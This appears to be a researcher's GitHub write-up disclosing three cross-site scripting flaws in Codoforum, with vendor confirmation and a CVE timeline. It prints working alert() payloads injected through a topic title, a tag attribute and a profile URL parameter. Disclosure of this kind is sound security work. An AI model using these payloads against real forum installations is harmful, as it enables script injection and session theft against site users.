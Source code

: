 # This is what I achived when research on [Codoforum](http://codologic.com/)
## Reflected XSS
### Firstly, login into a user account, and create a new topic with title <svg/onload=alert(document.domain)>
![](https://github.com/matuhn/Research/raw/master/codoforum/1.png)
### Secondly, do nothing and refresh the page 
![](https://github.com/matuhn/Research/raw/master/codoforum/2.png)
### It causes by this block of code 
![](https://github.com/matuhn/Research/raw/master/codoforum/3.png)
### Vendor confirmed
![](https://github.com/matuhn/Research/raw/master/codoforum/image.png)
![](https://github.com/matuhn/Research/raw/master/codoforum/20200214_072124.jpg)
# REPORT TIMELINE
# 02/13/2020: Discovered the vulnerability
# 02/13/2020: Vendor confirmed
# 02/17/2020: CVE-2020-9007

## Stored XSS
### Create a post with Tags : 1" onmouseover="alert(1)
### XSS will be fired if you put your mouse on tags

# REPORT TIMELINE
# 02/24/2020: Discovered the vulnerability
# 03/03/2020: Vendor confirmed

## Reflected XSS
### Go to : http://URL/codo/index.php?u=user/profile/11110%22%20accesskey=%22X%22%20onclick=%22alert(1)
### Use Alt+Shift+X , XSS will be fired

# REPORT TIMELINE
# 02/24/2020: Discovered the vulnerability
# 03/03/2020: Vendor confirmed
![](https://github.com/matuhn/Research/raw/master/codoforum/confirm.png)

